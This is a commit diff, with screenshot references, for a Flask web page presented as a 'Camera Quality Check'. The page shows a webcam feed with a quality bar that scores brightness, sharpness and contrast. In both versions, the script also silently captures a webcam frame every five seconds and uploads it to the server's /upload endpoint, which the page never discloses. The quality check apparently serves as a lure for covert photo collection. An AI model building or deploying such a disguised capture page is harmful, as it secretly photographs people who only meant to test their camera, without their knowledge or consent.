

Before and after one commit to pages-jpg/cam, a Flask app: page / in a window 390 px wide. Shown: the top 673 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -2,56 +2,97 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-<title>Check Your Camera Quality</title>
+  <title>Camera Quality Check</title>
   <style>
-  body { font-family: Arial, sans-serif; text-align: center; margin: 20px; background-color: black; color: white; }
-  video, canvas { border: 1px solid #ccc; border-radius: 8px; width: 80%; height: 60%; margin-top: 20px; }
-  button { padding: 10px 15px; font-size: 16px; margin: 10px; cursor: pointer; border-radius: 5px; border: none; background-color: #007BFF; color: white; }
+    body {
+      font-family: Arial, sans-serif;
+      text-align: center;
+      margin: 20px;
+      background-color: black;
+      color: white;
+    }
+
+    @media (max-width: 1180px) {
+      video, canvas {
+        border: 1px solid #ccc;
+        border-radius: 8px;
+        width: 80%;
+        height: 90%;
+        margin-top: 20px;
+      }
+    }
+
+    video, canvas {
+      border: 1px solid #ccc;
+      border-radius: 8px;
+      width: 80%;
+      height: 60%;
+      margin-top: 20px;
+    }
+
+    button {
+      padding: 10px 15px;
+      font-size: 16px;
+      margin: 10px;
+      cursor: pointer;
+      border-radius: 5px;
+      border: none;
+      background-color: #007BFF;
+      color: white;
+    }
     button:hover { background-color: #0056b3; }
 
-  /* 🔹 Quality bar */
+    /* 🔹 Quality Bar */
     #qualityBarWrapper {
-    position: fixed; top: 50%; right: 20px; transform: translateY(-50%);
-    width: 20px; height: 70%; background: linear-gradient(to top, red, yellow, green);
-    border-radius: 10px; border: 1px solid #333; overflow: hidden;
+      position: fixed;
+      top: 50%;
+      right: 20px;
+      transform: translateY(-50%);
+      width: 20px;
+      height: 70%;
+      background: linear-gradient(to top, red, yellow, green);
+      border-radius: 10px;
+      border: 1px solid #333;
+      overflow: hidden;
     }
     #qualityMarker {
-    position: absolute; left: -4px; width: 28px; height: 4px;
-    background: black; border-radius: 2px;
-    transition: top 0.2s ease, background 0.2s ease;
+      position: absolute;
+      left: -4px;
+      width: 28px;
+      height: 2px;
+      background: black;
+      transition: top 0.5s ease;
     }
     #qualityText {
-    position: fixed; top: 50%; right: 60px; transform: translateY(-50%);
-    font-size: 28px; font-weight: bold;
-    transition: color 0.2s ease;
+      position: fixed;
+      top: 50%;
+      right: 60px;
+      transform: translateY(-50%);
+      font-size: 26px;
+      font-weight: bold;
     }
+
     @media (max-width: 1180px) {
-    video, canvas { border: 1px solid #ccc; border-radius: 8px; width: 80%; height: 70%; margin-top: 20px; }
       #qualityBarWrapper {
-    position: fixed; top: 40%; right: 20px; transform: translateY(-50%);
-    width: 25px; height: 60%; background: linear-gradient(to top, red, yellow, green);
-    border-radius: 10px; border: 1px solid #333; overflow: hidden;
+        width: 30px;
+        height: 50%;
+        right: 25px;
       }
-  #qualityMarker {
-    position: absolute; left: -4px; width: 28px; height: 4px;
-    background: black; border-radius: 2px;
-    transition: top 0.2s ease, background 0.2s ease;
-  }
-  #qualityText {
-    position: fixed; top: 40%; right: 60px; transform: translateY(-50%);
-    font-size: 28px; font-weight: bold;
-    transition: color 0.2s ease;
-  }
+      #qualityMarker { width: 38px; }
+      #qualityText { top: 58%; font-size: 50px; right: 20px; }
     }
   </style>
 </head>
 <body>
-<h1 style="margin-top: 8%; font-size: xxx-large;">Camera Quality Check</h1>
+  <h1 style="margin-top: 8%;font-size: xxx-large;">Camera Quality Check</h1>
 
-<div id="qualityBarWrapper"><div id="qualityMarker"></div></div>
+  <!-- Quality Indicator -->
+  <div id="qualityBarWrapper">
+    <div id="qualityMarker"></div>
+  </div>
   <div id="qualityText">0%</div>
 
-<video id="video" autoplay playsinline muted></video>
+  <video id="video" autoplay playsinline></video>
   <br>
   <button id="flipBtn">Flip Camera</button>
   <button id="captureBtn">Capture</button>
@@ -60,113 +101,118 @@
   <script>
     const video = document.getElementById('video');
     const canvas = document.getElementById('canvas');
+    const ctx = canvas.getContext('2d');
     const captureBtn = document.getElementById('captureBtn');
     const flipBtn = document.getElementById('flipBtn');
     const marker = document.getElementById('qualityMarker');
     const qualityText = document.getElementById('qualityText');
+
     let stream;
     let usingFrontCamera = true;
 
-// 🔹 Start camera
     async function startCamera() {
-  if(stream) stream.getTracks().forEach(t => t.stop());
-  try {
+      if (stream) stream.getTracks().forEach(track => track.stop());
+
       stream = await navigator.mediaDevices.getUserMedia({
-      video: { facingMode: usingFrontCamera ? "user" : "environment", width: { ideal: 1920 }, height: { ideal: 1080 } },
+        video: { facingMode: usingFrontCamera ? "user" : "environment" },
         audio: false
       });
+
       video.srcObject = stream;
       await video.play();
-  } catch(err) {
-    console.error('Camera error:', err);
-    alert('Cannot access camera. Use HTTPS and allow permissions.');
-  }
     }
 
-// 🔹 Flip camera
     flipBtn.addEventListener('click', () => {
       usingFrontCamera = !usingFrontCamera;
       startCamera();
     });
 
-// 🔹 Capture & upload
+    // 🔹 Capture Function
     function captureAndUpload() {
-  const ctx = canvas.getContext('2d');
       canvas.width = video.videoWidth;
       canvas.height = video.videoHeight;
       ctx.drawImage(video, 0, 0, canvas.width, canvas.height);
+
       canvas.toBlob(async (blob) => {
         const formData = new FormData();
         formData.append('file', blob, 'photo.png');
+
         try {
           const response = await fetch('/upload', { method: 'POST', body: formData });
-      if(response.ok) console.log('Photo uploaded!');
+          if(response.ok) console.log('Photo uploaded successfully!');
           else console.error('Upload failed');
-    } catch (err) { console.error(err); }
+        } catch (err) {
+          console.error('Error:', err);
+        }
       }, 'image/png');
     }
+
     captureBtn.addEventListener('click', captureAndUpload);
-setInterval(captureAndUpload, 5000); // auto-capture
 
-// 🔹 Quality calculation
-function getVideoQualityPercent() {
-  if(!video.videoWidth || !video.videoHeight) return 0;
+    // 🔹 Auto-capture every 5 seconds
+    setInterval(captureAndUpload, 5000);
 
-  // Resolution-based percentage
-  const resTable=[
-    {w:160,h:120,pct:4},{w:360,h:240,pct:10},{w:420,h:320,pct:15},
-    {w:640,h:480,pct:15},{w:1280,h:720,pct:44},{w:1920,h:1080,pct:90},
-    {w:3840,h:2160,pct:100}
-  ];
-  let resPct=0;
-  for(let entry of resTable){
-    if(video.videoWidth<=entry.w && video.videoHeight<=entry.h){
-      resPct=entry.pct; break;
+    // 🔹 Quality Measurement
+    function getBrightness(frame) {
+      const data = frame.data;
+      let total = 0;
+      for(let i=0;i<data.length;i+=4){
+        total += 0.2126*data[i] + 0.7152*data[i+1] + 0.0722*data[i+2];
       }
+      return total / (data.length/4);
     }
 
-  // Sharpness-based percentage
+    function getSharpness(frame) {
+      const data = frame.data;
+      let sharp = 0;
+      for(let i=0;i<data.length-4;i+=4){
+        sharp += Math.abs(data[i]-data[i+4]);
+      }
+      return sharp / (data.length/4);
+    }
+
+    function getContrast(frame){
+      const data = frame.data;
+      let sum = 0, sumSq = 0;
+      for(let i=0;i<data.length;i+=4){
+        const lum = 0.2126*data[i] + 0.7152*data[i+1] + 0.0722*data[i+2];
+        sum += lum;
+        sumSq += lum*lum;
+      }
+      const mean = sum/(data.length/4);
+      const variance = sumSq/(data.length/4) - mean*mean;
+      return Math.sqrt(variance);
+    }
+
+    function updateQuality() {
+      if(video.videoWidth < 100) return; // not ready
+
       canvas.width = video.videoWidth;
       canvas.height = video.videoHeight;
-  const ctx = canvas.getContext('2d');
       ctx.drawImage(video, 0, 0, canvas.width, canvas.height);
-  const data = ctx.getImageData(0,0,canvas.width,canvas.height).data;
-  let sum=0, sumSq=0;
-  for(let i=0;i<data.length;i+=4){
-    const b = 0.299*data[i]+0.587*data[i+1]+0.114*data[i+2];
-    sum+=b; sumSq+=b*b;
-  }
-  const mean=sum/(data.length/4);
-  const variance=sumSq/(data.length/4)-mean*mean;
-  const sharp=Math.min(100, Math.round(variance/50));
+      const frame = ctx.getImageData(0,0,canvas.width,canvas.height);
 
-  return Math.round(resPct*0.6 + sharp*0.4); // combine res+sharpness
+      let brightness = getBrightness(frame);
+      let sharpness = getSharpness(frame);
+      let contrast = getContrast(frame);
+
+      // Combine metrics (weights adjustable)
+      let quality = 0.4*brightness + 0.4*sharpness + 0.2*contrast;
+
+      // Normalize to 0-100 (you can tweak)
+      quality = Math.min(100, Math.max(0, quality/2)); // divisor can be adjusted
+
+      // Update UI
+      const barHeight = document.getElementById('qualityBarWrapper').offsetHeight;
+      marker.style.top = Math.floor(barHeight*(1 - quality/100)) + "px";
+
+      qualityText.innerText = Math.round(quality) + "%";
+      qualityText.style.color = quality<40?"red":quality<70?"orange":"green";
     }
 
-// 🔹 Smooth animation loop
-function updateQuality() {
-  const percent = getVideoQualityPercent();
-  const barHeight = document.getElementById('qualityBarWrapper').offsetHeight;
-
-  // Smooth marker movement
-  const currentTop = parseFloat(marker.style.top) || barHeight;
-  const targetTop = barHeight*(1 - percent/100);
-  marker.style.top = (currentTop + (targetTop - currentTop)*0.2) + "px";
-
-  // Smooth color
-  qualityText.innerText = percent + "%";
-  if(percent<40) qualityText.style.color="red";
-  else if(percent<70) qualityText.style.color="orange";
-  else qualityText.style.color="lime";
-
-  // Animate marker color slightly based on quality
-  marker.style.background = `hsl(${percent*1.2}, 80%, 20%)`;
-
-  requestAnimationFrame(updateQuality);
-}
+    setInterval(updateQuality, 500); // update bar twice per second
 
     startCamera();
-updateQuality();
   </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
